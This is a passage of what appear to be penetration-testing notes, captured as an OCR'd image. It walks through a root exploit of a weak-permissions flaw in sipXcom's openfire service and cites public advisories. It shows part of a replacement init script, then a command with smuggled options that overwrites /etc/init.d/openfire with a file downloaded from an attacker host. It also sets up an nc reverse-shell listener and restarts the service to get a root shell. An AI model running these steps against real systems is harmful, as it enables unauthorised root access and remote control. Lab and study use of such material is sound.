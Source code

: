 ```
        PID=$(findPID)
        if [ -n "$PID" ]; then
                echo "openfire is running"
                RETVAL=0
        else
                echo "openfire is not running"
                RETVAL=1
        fi
}
 
findPID() {
        echo `ps ax --width=1000 | grep openfire | grep startup.jar | awk '{print $1}'`
}
 
# Handle how we were called.
case "$1" in
        start)
                start
                ;;
        stop)
                stop
                ;;
        restart)
                restart
                ;;
        condrestart)
                condrestart
                ;;
        reload)
                restart
                ;;
        status)
                status
                ;;
        *)
                echo "Usage $0 {start|stop|restart|status|condrestart|reload}"
                RETVAL=1
esac
 
exit $RETVAL
```

- [ ] Download and replace the `openfire.txt` on the Target Machine
```
@call abc -o /tmp/dummy -o /etc/init.d/openfire -X GET http://192.168.xxx.xxx/openfire.txt -o /tmp/dummy
```

- [ ] Set up nc reverse shell listener on your Kali Machine
```
nc -nlvp 4444
```

- [ ] Restart the openfire service on the Target Machine

- [ ] Get root shell

References:
- https://seclists.org/fulldisclosure/2023/Mar/5
- https://packetstormsecurity.com/files/171281/CoreDial-sipXcom-sipXopenfire-21.04-Remote-Command-Execution-Weak-Permissions.html
